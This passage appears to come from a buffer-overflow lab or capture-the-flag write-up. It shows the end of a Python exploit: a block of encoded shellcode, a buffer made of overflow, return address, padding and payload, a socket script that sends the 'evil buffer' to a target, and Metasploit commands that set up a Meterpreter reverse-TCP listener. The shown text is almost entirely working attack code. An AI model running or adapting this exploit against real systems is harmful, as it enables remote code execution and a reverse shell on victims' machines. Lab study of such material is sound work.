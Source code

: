 ```python
"\x89\xf8\xb2\xe8\x2c\x33\x40\x34\x66\x4f\x9d\xcf\x49\xb0"
"\xdf\x19\x98\x8e\x21\x6a\xd6\xa2\xa3\xb3\xd1\x5a\xd6\xcf"
"\x21\xe6\xe1\x14\x5b\x3c\x67\x8a\xfb\xb7\xdf\x6e\xfd\x14"
"\xb9\xe5\xf1\xd1\xcd\xa1\x15\xe7\x02\xda\x22\x6c\xa5\x0c"
"\xa3\x36\x82\x88\xef\xed\xab\x89\x55\x43\xd3\xc9\x32\x3c"
"\x71\x82\xd1\x2b\x05\x6b\x2a\x54\x5b\xfb\xe6\x99\x64\xfb"
"\x60\xa9\x17\xc9\x2f\x01\xb0\x61\xa7\x8f\x47\xf0\xaf\x2f"
"\x97\xba\xa0\xd1\x18\xba\xe9\x15\x4c\xea\x81\xbc\xed\x61"
"\x52\x40\x38\x1f\x58\xd6\xc9\xcd\x4a\x6b\xa6\xf3\x72\x62"
"\x6a\x7a\x94\xd4\xc2\x2c\x09\x95\xb2\x8c\xf9\x7d\xd9\x03"
"\x25\x9d\xe2\xce\x4e\x34\x0d\xa6\x27\xa1\xb4\xe3\xbc\x50"
"\x38\x3e\xb9\x53\xb2\xca\x3d\x1d\x33\xbf\x2d\x4a\x24\x3f"
"\xae\x8b\xc1\x3f\xc4\x8f\x43\x68\x70\x92\xb2\x5e\xdf\x6d"
"\x91\xdd\x18\x91\x64\xd7\x53\xa4\xf2\x57\x0c\xc9\x12\x57"
"\xcc\x9f\x78\x57\xa4\x47\xd9\x04\xd1\x87\xf4\x39\x4a\x12"
"\xf7\x6b\x3e\xb5\x9f\x91\x19\xf1\x3f\x6a\x4c\x81\x38\x94"
"\x12\xae\xe0\xfc\xec\xee\x10\xfc\x86\xee\x40\x94\x5d\xc0"
"\x6f\x54\x9d\xcb\x27\xfc\x14\x9a\x8a\x9d\x29\xb7\x4b\x03"
"\x29\x34\x50\xb4\x50\x35\x67\x35\xa5\x5f\x0c\x36\xa5\x5f"
"\x32\x0b\x73\x66\x40\x4a\x47\xdd\x5b\xf9\xea\x74\xf6\x01"
"\xb8\x87\xd3"
)

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except socket.error:
    print("[-] Could not connect.")
finally:
    s.close()

```

Starting `msfconsole`, selecting the multi handler module, and setting and running the exploit:

    sudo msfconsole -q
    [sudo] password for nina: 
    [*] Starting persistent handler(s)...
    msf6 > use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost tun0
    lhost => tun0
    msf6 exploit(multi/handler) > set lport 4444
    lport => 4444
    msf6 exploit(multi/handler) > exploit
    